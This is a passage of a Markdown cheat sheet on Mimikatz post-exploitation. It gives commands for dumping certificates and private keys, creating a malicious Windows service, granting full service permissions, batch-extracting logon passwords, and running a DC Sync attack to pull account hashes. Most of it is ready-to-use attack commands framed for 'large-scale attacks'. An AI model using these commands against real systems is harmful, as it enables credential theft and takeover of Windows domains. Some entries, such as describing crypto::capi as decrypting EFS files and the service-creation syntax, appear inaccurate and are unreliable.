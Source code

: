 ## Miscellaneous Attacks

Mimikatz also includes several other useful features for post-exploitation activities.

#### Extracting Certificates and Private Keys

1. **Dump Installed Certificates**: Dumps certificates installed in the local machine's store.
    ```bash
    crypto::certificates /systemstore:local_machine /store:my
    ```
2. **Extract Private Keys**: Extracts private keys associated with certificates.
    ```bash
    crypto::certificates /export
    ```
3. **Decrypt Encrypted Files (EFS)**: Decrypts files encrypted with the Windows Encrypting File System (EFS).
    ```bash
    crypto::capi
    ```

#### Manipulating Windows Services

1. **Enumerate and Manipulate Services**: Lists, starts, and stops Windows services.
    ```bash
    service::list
    service::start <service_name>
    service::stop <service_name>
    ```
2. **Create a Malicious Service**: Creates a new Windows service that runs a malicious command.
    ```bash
    service::create <service_name> /binpath:"<malicious_command>"
    ```
3. **Manipulate Service Permissions**: Modifies the permissions on a service to allow arbitrary control.
    ```bash
    service::permissions <service_name> /grant:<username> /privileges:full
    ```

#### Automation and Scripting

Mimikatz commands can be automated using scripts to streamline large-scale attacks.

1. **Batch Script for Credential Extracting**: Automates the process of Extracting credentials by chaining commands in a batch script.
    ```bash
    mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
    ```
2. **PowerShell Integration**: Integrates Mimikatz with PowerShell to automate tasks in a Windows environment.
    ```bash
    Invoke-Expression -Command (Get-Content .\mimikatz.ps1 | Out-String)
    ```
3. **Automated DC Sync Attack Script**: Automates a DC Sync attack to extract hashes for a specific user.
    ```bash
    mimikatz.exe "privilege::debug" "lsadump::dcsync /user:<username>" "exit"
    ```
